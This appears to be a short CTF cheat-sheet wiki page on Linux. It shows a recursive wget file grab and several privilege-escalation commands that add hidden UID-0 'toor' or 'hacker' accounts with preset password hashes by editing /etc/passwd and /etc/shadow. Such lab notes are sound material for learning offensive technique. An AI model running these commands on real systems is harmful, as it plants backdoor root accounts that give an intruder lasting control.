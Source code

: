 ```yaml
---
layout: article
title: Nix
permalink: /wikis/ctf/nix
aside:
    toc: true
sidebar:
    nav: wikis
---
```


## File Transfer

Grab all files from directory
```bash
wget -r -nH --no-parent http://<host-ip>/<dir>/ --reject="index.html*" -q
```



## Privilege Escalation

Exploitable binaries<br>
[https://gtfobins.github.io/](https://gtfobins.github.io/)
<br>
<br>
Adding Users
```bash
adduser --no-create-home --shell /bin/bash toor 
sed -i 's/toor:x:1001:1001/toor:x:0:0/' /etc/passwd 

useradd -m hacker -p 23ZQ03Tm4ejt6 -o -u 0 -g 0 
```
or 
  
```bash
echo "toor:x:0:0::/tmp:/bin/sh" >> /etc/passwd 
echo "toor:23MdZN/rsVdLg:16673:0:99999:7:::" >> /etc/shadow 
```
<br>
<br>
If only <b>/etc/passwd</b> is writable 
```bash
echo "toor:23MdZN/rsVdLg:0:0:,,,:/root:/bin/bash" >> /etc/passwd 
```

Create Hashes for <b>/etc/shadow</b>: 
```bash
openssl passwd -salt 234 <password> 
```
<br>
<br>
Exploiting <b>sudoedit</b>-able <b>/etc/passwd</b><br>
Create a user toor:toor 
```bash
toor:23MdZN/rsVdLg:0:0:,,,:/root:/bin/bash
```